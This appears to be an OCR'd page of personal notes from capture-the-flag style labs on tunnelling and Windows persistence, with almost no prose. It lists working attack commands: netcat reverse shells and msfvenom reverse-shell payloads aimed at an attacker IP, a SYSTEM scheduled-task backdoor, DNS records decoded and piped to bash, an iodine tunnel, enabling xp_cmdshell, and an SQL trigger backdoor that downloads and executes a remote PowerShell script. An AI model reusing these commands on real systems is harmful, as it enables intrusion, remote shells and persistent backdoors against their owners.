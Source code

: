 curl --socks5 127.0.0.1:1080 http://172.20.0.121:80

sudo nping --icmp -c 1 10.17.59.71 --data-string "BOFfile.txt"

xfreerdp /v:10.10.107.133 /u:Administrator /p:Password321

sudo nping --icmp -c 1 10.17.59.71 --data-string "BOFfile.txt"

dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash

sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com                                                                     

proxychains curl http://192.168.0.100/demo.php #OR curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php



## windows本地持久化

evil-winrm -i 10.10.181.58 -u thmuser2 -p Password321

Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.17.59.71 4445"

Invoke-WebRequest -Uri "http://10.17.59.71:8000/" -OutFile "C:\windows\"

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.59.71 LPORT=4448 -f exe-service -o rev-svc.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.59.71 LPORT=5558 -f exe-service -o rev-svc2.exe

schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.17.59.71 4449" /ru SYSTEM

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.59.71 LPORT=4450 -f exe -o revshell.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.59.71 LPORT=4451 -f exe -o vshell.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.59.71 LPORT=4452 -f exe -o revshell.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.59.71 LPORT=4453 -f exe -o revshell.exe

sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO

USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];

USE HRDB

CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://10.17.59.71:8000/evilscript.ps1'')"';

